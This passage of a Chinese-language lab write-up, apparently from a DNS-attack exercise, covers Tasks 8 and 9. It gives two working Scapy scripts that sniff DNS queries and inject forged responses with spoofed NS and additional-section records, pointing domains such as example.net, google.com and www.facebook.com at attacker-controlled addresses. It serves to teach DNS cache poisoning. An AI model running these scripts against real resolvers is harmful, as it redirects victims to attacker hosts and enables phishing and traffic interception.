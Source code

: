 dns服务器上抓取到的流量包。可以看到目标被解析到了另外的dns服务器

![image-20201023163329305](https://gitee.com/ethustdout/pics/raw/master/img/image-20201023163329305.png)

查看`dig`的结果

![image-20201023163343197](https://gitee.com/ethustdout/pics/raw/master/img/image-20201023163343197.png)



### Task 8: Targeting Another Domain

添加一对额外的包即可

```python
#coding=utf-8
from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='1.1.1.1')
        NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='attacker32.com')
        NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=260000, rdata='attacker32.com')
        Addsec1 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='2.2.2.2')
        Addsec2 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='3.3.3.3')
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2 ,ar=Addsec1/Addsec2)
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
        print("[+] got one")
pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```

受害机上看到的消息

![image-20201023165302665](https://gitee.com/ethustdout/pics/raw/master/img/image-20201023165302665.png)





### Task 9: Targeting the Additional Section

代码更新如下

```python
#coding=utf-8
from scapy.all import *

def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
        Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='1.1.1.1')
        NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='attacker32.com')
        NSsec2 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='ns.example.net')
        Addsec1 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='2.2.2.2')
        Addsec2 = DNSRR(rrname='ns.example.net', type='A', ttl=259200, rdata='3.3.3.3')
        Addsec3 = DNSRR(rrname='www.facebook.com', type='A', ttl=259200, rdata='4.4.4.4')
        DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,qdcount=1, ancount=1, nscount=2, arcount=3,an=Anssec, ns=NSsec1/NSsec2 ,ar=Addsec1/Addsec2/Addsec3)
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
        print("[+] got one")

pkt = sniff(filter='udp and dst port 53', prn=spoof_dns)
```